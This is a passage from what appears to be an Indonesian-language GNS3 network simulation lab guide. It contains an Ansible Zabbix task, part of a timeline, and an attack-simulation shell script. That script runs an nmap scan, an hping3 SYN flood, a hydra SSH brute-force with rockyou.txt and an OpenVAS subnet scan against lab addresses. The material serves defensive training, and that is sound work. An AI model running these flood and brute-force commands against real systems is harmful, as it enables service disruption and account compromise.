 ```yaml
    - apache2

- name: Create auto-discovery rules
  uri:
    url: "http://localhost/api_jsonrpc.php"
    method: POST
    body_format: json
    body:
      jsonrpc: "2.0"
      method: "discoveryrule.create"
      params:
        name: "Network Discovery"
        key_: "net.discovery"
        delay: "1h"
      id: 1
    status_code: 200
```

---

### **5. Skrip Simulasi Serangan**
**File: `configs/scripts/attack_sim.sh`**
```bash
#!/bin/bash
# HARI 5: SIMULASI SERANGAN

# 1. Port Scanning
echo "Simulating port scanning..."
nmap -sS -T4 -Pn 192.168.10.0/24 -oN /tmp/nmap_scan.log

# 2. DDoS Simulation
echo "Launching DDoS attack..."
timeout 300 hping3 -c 10000 -d 120 -S -w 64 -p 443 --flood 203.0.113.2 &

# 3. IoT Breach Attempt
echo "Attempting IoT device breach..."
hydra -l admin -P /usr/share/wordlists/rockyou.txt ssh://192.168.100.30 -t 4 -I -o /tmp/hydra.log

# 4. Vulnerability Scan
echo "Scanning for vulnerabilities..."
omp -u admin -w password -X "<create_task><name>Full Scan</name><target><hosts>192.168.0.0/16</hosts></target></create_task>"
TASK_ID=$(omp -g | grep "Full Scan" | cut -d' ' -f1)
omp -S $TASK_ID

# 5. Validate responses
python /opt/validate.py
```

---

### **6. Timeline Simulasi Detail (7 Hari)**
```mermaid
gantt
    title Timeline Simulasi GNS3 (Detil Per Hari)
    dateFormat  YYYY-MM-DD
    axisFormat %d/%m
    
    section Hari 1: Setup GNS3
    Install GNS3 Server         :a1, 2025-08-01, 4h
    Import Images               :a2, after a1, 2h
    Build Topology              :a3, after a2, 4h

    section Hari 2: Konfigurasi Dasar
```